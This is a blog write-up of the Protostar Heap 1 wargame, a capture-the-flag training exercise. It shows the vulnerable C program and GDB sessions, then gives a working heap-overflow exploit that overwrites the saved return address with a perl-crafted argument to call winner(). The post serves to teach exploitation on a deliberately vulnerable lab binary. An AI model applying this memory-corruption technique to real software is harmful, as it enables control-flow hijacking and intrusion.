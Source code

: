 ```yaml
---
layout: post
title: "Exploit Exercises - Protostar Heap 1"
date: 2012-01-12T18:28:00-05:00
comments: true
categories:
 - wargames
 - Protostar
 - linux
 - exploit-exercises
 - hacking
 - heap
---
```


[This](http://exploit-exercises.com/protostar/heap1) challenge was different for me. The previous heap challenge was easy to pretend it was just a simple stack overflow.  This one worked very different, and brought some different challenges with it. 

You first start out with the following code:

```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>
#include <sys/types.h>



struct internet {
 int priority;
 char *name;
};

void winner()
{
 printf("and we have a winner @ %d\n", time(NULL));
}

int main(int argc, char **argv)
{
 struct internet *i1, *i2, *i3;

 i1 = malloc(sizeof(struct internet));
 i1->priority = 1;
 i1->name = malloc(8);

 i2 = malloc(sizeof(struct internet));
 i2->priority = 2;
 i2->name = malloc(8);

 strcpy(i1->name, argv[1]);
 strcpy(i2->name, argv[2]);

 printf("and that's a wrap folks!\n");
}
```

It's quite easy to see where the heap overflow would occur.  The code is allocating 8 bytes of space for the "name" field in memory.  However, it's never checking if the arguments are over 8 bytes long. 

After tinkering for a bit, I found that if you passed strings that were too long, you could get strcpy to try overwriting other memory spaces than it was supposed to.  GDB would fail on the lines of strcpy with weird addresses.  So I started there. 

First, I figured I needed to know the offset for the first argument, to know which exact byte it was using as a copy destination.  Just like in stack overflows, I used the [Metasploit Framework](http://www.metasploit.com) to generate a unique string: 

```
mandreko@li225-134:/opt/framework-4.0.0/msf3/tools$ ./pattern_create.rb 250
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2A
```

I then fed that string into the first argument, and passed a test value of "BBBBBBBB" as the second argument. 

```
user@protostar:/opt/protostar/bin$ gdb ./heap1 --quiet
Reading symbols from /opt/protostar/bin/heap1...done.
(gdb) run Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2A BBBBBBBB
Starting program: /opt/protostar/bin/heap1 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2A BBBBBBBB

Program received signal SIGSEGV, Segmentation fault.
*__GI_strcpy (dest=0x37614136 <Address 0x37614136 out of bounds>,
    src=0xbffff99e "BBBBBBBB") at strcpy.c:40
40      strcpy.c: No such file or directory.
        in strcpy.c
```

I used the [Metasploit Framework](http://www.metasploit.com) again to get me the offset using the value in the strcpy dest field. 

```
mandreko@li225-134:/opt/framework-4.0.0/msf3/tools$ ./pattern_offset.rb 0x37614136
20
```

So what I had learned here, is if I overflowed the "name" field of the struct with 20 bytes instead of 8, I could then control the destination of the copy for the second strcpy command.  It would copy whatever the second argument was, into any memory space I wanted.  But I needed to control flow of the program to get "winner()" to execute.  Somehow I needed to get the address of "winner()" into the EIP.  My thought on that, was that since when you call a program or function, it puts the return address in the stack, that maybe I could overwrite that return address, and instead of exiting gracefully (because it was the main function), it would put my address into the EIP and run it.  The first step with that was finding the location of that return address in the stack. 

I added a breakpoint to the main function, so I could get the initial memory values once inside that function. 

```
user@protostar:/opt/protostar/bin$ gdb ./heap1 --quiet
Reading symbols from /opt/protostar/bin/heap1...done.
(gdb) break main
Breakpoint 1 at 0x80484c2: file heap1/heap1.c, line 23.
```

I then ran the program with dummy data, which made me hit my breakpoint. 

```
(gdb) run asdf asdf
Starting program: /opt/protostar/bin/heap1 asdf asdf

Breakpoint 1, main (argc=3, argv=0xbffff864) at heap1/heap1.c:23
23      heap1/heap1.c: No such file or directory.
        in heap1/heap1.c
```

From this point, I wanted to look at all the registers, but focus in on the esp and ebp. 

```
(gdb) i r
eax            0xbffff864       -1073743772
ecx            0x7825cdc2       2015743426
edx            0x3      3
ebx            0xb7fd7ff4       -1208123404
esp            0xbffff790       0xbffff790
ebp            0xbffff7b8       0xbffff7b8
esi            0x0      0
edi            0x0      0
eip            0x80484c2        0x80484c2 <main+9>
eflags         0x200286 [ PF SF IF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
```

The important parts here, are that the top of the stack is at 0xbffff790 and the bottom at 0xbffff7b8.  So I pulled up all the memory inbetween those two addresses.  I expected to see 0x00000000 at the end, to signify that it was the end of the function.  And in the addresses before that, one would be the return address. 

```
(gdb) x/10x $esp
0xbffff790:     0xb7fd8304      0xb7fd7ff4      0x08048580      0xbffff7b8
0xbffff7a0:     0xb7ec6365      0xb7ff1040      0x0804858b      0xb7fd7ff4
0xbffff7b0:     0x08048580      0x00000000
```

For now, I removed my original breakpoint, so that execution wouldn't get paused. 

```
(gdb) delete 1
```

I played around with the different addresses in this 0xbffff790-0xbffff7b8 range, and found the address 0xbffff7ac to work out. 

```
(gdb) run $(perl -e 'print "A"x20 . "\xac\xf7\xff\xbf" . " " . "\xEF\xBE\xAD\xDE"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /opt/protostar/bin/heap1 $(perl -e 'print "A"x20 . "\xac\xf7\xff\xbf" . " " . "\xEF\xBE\xAD\xDE"')
and that's a wrap folks!

Program received signal SIGSEGV, Segmentation fault.
0xdeadbeef in ?? ()
```

So it appears that it wasn't the byte right before the 0x00000000, but was actually 2 bytes before it.  I was now controlling the EIP.  The last step would be to find the address of the winner() function, to get it called. 

```
(gdb) print winner
$1 = {void (void)} 0x8048494 <winner>
```

This was fairly trivial to do.  So I built up the string with the proper return address and winner() address: 

```
(gdb) run $(perl -e 'print "A"x20 . "\xac\xf7\xff\xbf" . " " . "\x94\x84\x04\x08"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /opt/protostar/bin/heap1 $(perl -e 'print "A"x20 . "\xac\xf7\xff\xbf" . " " . "\x94\x84\x04\x08"')
and that's a wrap folks!
and we have a winner @ 1326098464

Program received signal SIGSEGV, Segmentation fault.
0x00000000 in ?? ()
```

It looks like it did execute winner() successfully.  It may not have ended the program properly, but we got our execution.  Just to make sure that it'd work outside of gdb, I tried it again on the direct program. 

```
user@protostar:/opt/protostar/bin$ ./heap1 $(perl -e 'print "A"x20 . "\xac\xf7\xff\xbf" . " " . "\x94\x84\x04\x08"')
and we have a winner @ 1326098505
Segmentation fault
```

There you have it.  The execution was changed to execute where originally not intended.